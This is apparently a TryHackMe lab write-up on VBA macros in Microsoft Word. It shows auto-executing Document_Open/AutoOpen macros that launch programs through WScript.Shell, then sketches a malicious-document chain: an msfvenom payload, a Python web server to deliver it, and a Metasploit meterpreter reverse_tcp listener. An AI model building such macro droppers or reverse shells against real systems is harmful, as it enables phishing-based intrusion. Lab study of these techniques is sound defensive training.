    - Close out of the editor and hit the green play button. The running of this macro should bring up a new screen with a pop up that says "Welcome."

![Microsoft VBA macro](https://github.com/ryangreggw/THM-BOXES/assets/25268281/8bd4a9a3-4e63-4d2b-b74b-377793d89108)

![microsoft VBA successful macro](https://github.com/ryangreggw/THM-BOXES/assets/25268281/d3bcd94b-6cae-426f-bb63-84e5ba0f296d)


***#AUTOMATING A MACRO:***
- You're going to add a "Document_Open" and "AutoOpen" command to your macro: 
```
Sub Document_Open()
    thm
End Sub

Sub AutoOpen()
    thm
End Sub

Sub THM()
    MsgBox ("Welcome!")
End Sub
```
  - Make sure that you're saving it in a Macro-Enabled format such as ```.doc```, ```.docm```, ```world 97-2003 template```, etc. 

***#MACRO TO EXECUTE AN APPLICATION: CALCULATOR***
1. Create another macro
   - ***Attention to detail:*** I forgot to change "Macros in:" from all active templates to the particular document I was working in and I kept getting the error that Sub PoC wasn't defined; couldn't for the life of me figure it out...
2. Automated calculator macro: 
```
Sub Document_Open()
    PoC
End Sub
Sub AutoOpen()
    PoC
End Sub
Sub PoC()
    Dim payload As String
    payload = "calc.exe
    CreateObject("Wscript.Shell").Run payload,0
End Sub
```
***#More executable applications:***  
https://www.lifewire.com/list-of-executable-file-extensions-2626061

![microsoft VBA calculator macro](https://github.com/ryangreggw/THM-BOXES/assets/25268281/f9cd2afe-6527-4722-bd55-e263b5fdf9fc)

![microsoft vba calculator script](https://github.com/ryangreggw/THM-BOXES/assets/25268281/cca9d3fd-7185-4735-8079-2ec8798d09c9)

1. Create your payload with msfvenom
2. Open up a webserver so you can download the payload on your windows box.
   - ```python3 -m http.server <port#>``` 
3. Insert the payload code into the MS Word macro editor. 
4. Change "Workbook_Open()" to "Document_Open()."
5. Save the document in a Macro-Enabled format. 
   - I just used the "World 97-2003 Template" format from the last section.
6. Set your listener in metasploit on your linux box: 
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attack ip>
set LPORT <port #>
```